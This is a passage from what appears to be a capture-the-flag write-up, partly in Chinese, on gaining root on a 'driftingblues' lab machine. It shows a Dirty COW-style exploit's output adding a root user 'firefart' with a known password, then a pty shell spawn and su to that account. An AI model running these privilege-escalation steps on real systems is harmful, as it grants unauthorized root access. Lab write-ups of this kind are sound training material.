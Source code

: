 ```
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'chw'.

```
### 7. 登入 firefart
```
www-data@driftingblues:/tmp$ su firefart
su firefart
su: must be run from a terminal
www-data@driftingblues:/tmp$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@driftingblues:/tmp$ su firefart
su firefart
Password: chw

firefart@driftingblues:/tmp# id
id
uid=0(firefart) gid=0(root) groups=0(root)
```
所以真沒有 User Flag ?!\
![image](https://hackmd.io/_uploads/H1Otc2qnkl.png)

### ✅ Get Root FLAG

